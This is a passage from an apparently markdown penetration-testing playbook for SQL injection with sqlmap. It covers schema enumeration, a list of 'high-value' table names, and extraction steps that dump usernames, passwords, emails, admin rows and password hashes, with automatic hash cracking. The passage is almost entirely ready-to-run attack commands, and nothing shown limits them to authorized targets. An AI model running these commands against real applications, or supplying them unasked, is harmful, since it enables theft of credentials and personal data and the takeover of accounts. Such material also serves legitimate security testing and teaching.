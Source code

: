 ```bash
sqlmap -r request.txt --is-dba --batch
```

### 4.2 Schema Enumeration
```bash
# Enumerate tables in target database
sqlmap -r request.txt -D target_db --tables --batch

# Get interesting table structures
sqlmap -r request.txt -D target_db -T users --columns --batch
sqlmap -r request.txt -D target_db -T admin --columns --batch
sqlmap -r request.txt -D target_db -T passwords --columns --batch
```

### 4.3 Target High-Value Tables
```bash
# Common valuable table names:
- users, user, accounts, admin, administrators
- passwords, pass, pwd, credentials
- config, configuration, settings
- logs, audit, sessions
- customers, clients, members
```

---

## Phase 5: Data Extraction

### 5.1 Strategic Data Dumping
```bash
# Start with critical columns
sqlmap -r request.txt -D webapp -T users -C "username,password,email" --dump --batch

# Use conditional extraction for large tables
sqlmap -r request.txt -D webapp -T users --where="role='admin'" --dump --batch

# Limit rows for large datasets
sqlmap -r request.txt -D webapp -T logs --start=1 --stop=100 --dump --batch
```

### 5.2 Password Hash Handling
```bash
# Extract password hashes
sqlmap -r request.txt -D webapp -T users -C "username,password_hash" --dump --batch

# SQLMap will attempt to crack hashes automatically
# Check output directory for cracked passwords
```

### 5.3 Search for Sensitive Data
```bash
# Search for specific strings
sqlmap -r request.txt --search -T users -C username -S "admin" --batch

# Get schema information
sqlmap -r request.txt --schema --batch
```

---